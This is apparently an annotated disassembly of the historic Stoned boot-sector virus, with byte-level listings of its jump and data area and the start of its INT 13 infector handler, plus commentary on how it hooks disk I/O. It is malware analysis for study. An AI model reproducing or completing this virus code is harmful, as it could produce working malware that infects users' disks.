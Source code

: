 ```
; STONED PC COMPUTER VIRUS 
; (BOOTSECTOR INFECTOR)
;
; This jump is checked by the ROM to verify that a valid boot sector is present.
0000: EA 05 00 C0 07    JMP     $07C0:$0005             ; *1 07C0 is where the boot sector is
;                                                       ; loaded. Jump to next instruction.               
;                                                       ; (Re-orient the CS along the way)
;
0005: E9 99 00          JMP     $00A1                   ; *2 Jump over data area
;
0008: 00                ; Media source. 0 if loaded from a floppy, 2 from a fixed disk.
;     Offs Seg
0009: 00 00 00 00       ; Original INT 13 vector
000D: E4 00 00 00       ; Resident virus location in memory      (used for easy JMP)
0011: 00 7C 00 00       ; Pointer to original boot sector memory (used for easy JMP)
```

Anytime you find two absolute jumps together in a control flow a red flag should get raised. Why jump from location 0000 to location 0005 and then from location 
0005 to 00A1? Why not just jump from 0000 directly to 00A1? The extra jump instruction wastes three bytes of memory. On this dig we are going to identify several 
places where bytes could be saved!

The virus uses a 13-byte data-area beginning at 0008. The first byte of this data is a flag that describes what kind of disk the bootsector was loaded from. If the 
byte is 0, the bootsector was loaded from a floppy. If the byte is 2, the bootsector was loaded from a fixed disk. The virus moves the original bootsector to a "free" 
sector elsewhere on the disk. The location of this sector is different for floppies and hard-disks, as we will see. This flag is the virus's only way of knowing where 
to find the original bootsector needed to bring the computer up once the virus has initialized.

As the virus loads, it fills the four bytes at 0009 with the segment and offset of the address of the original INT 13 vector (pointing somewhere in ROM). This will be 
used to pass requests on to the original disk I/O handler.

The four bytes at 000D are used as an indirect reference to transfer control to the virus when it is copied into permanent memory. We'll see how this works shortly, 
but notice that the offset is already known -- the virus simply fills in the segment address of its new home. Likewise, the four bytes at 0011 are used as an indirect 
reference to the original bootsector when the virus has loaded. Neither of these indirect pointers is really needed, as we will see.

## The Infector 

```
;-----------------------------------------------------------------
; Infector
;-----------------------------------------------------------------
; New INT 13 handler
0015: 1E                PUSH    DS                      ; Hold ...
0016: 50                PUSH    AX                      ; ... incoming parameters
0017: 80 FC 02          CMP     AH,$02                  ; Is this a READ SECTOR request?
001A: 72 17             JB      $0033                   ; Ignore all requests ...
001C: 80 FC 04          CMP     AH,$04                  ; ... except ...
001F: 73 12             JNB     $0033                   ; ... READ = 2 or WRITE = 3 ...
0021: 0A D2             OR      DL,DL                   ; ... to drive 0 ...
0023: 75 0E             JNZ     $0033                   ; ... (floppy)
0025: 33 C0             XOR     AX,AX                   ; Set the DS register ...
0027: 8E D8             MOV     DS,AX                   ; ... to 0000
; The first sector in a group written to disk starts the drive motor. This check is a way
; for the virus to check the boot sector only on the first sector in a group and not
; on every sector which would bring the disk access to a crawl.
0029: A0 3F 04          MOV     AL,[DS:$043F]           ; Check to see if drive motor is ...
002C: A8 01             TEST    AL,$01                  ; ... already turned on.
```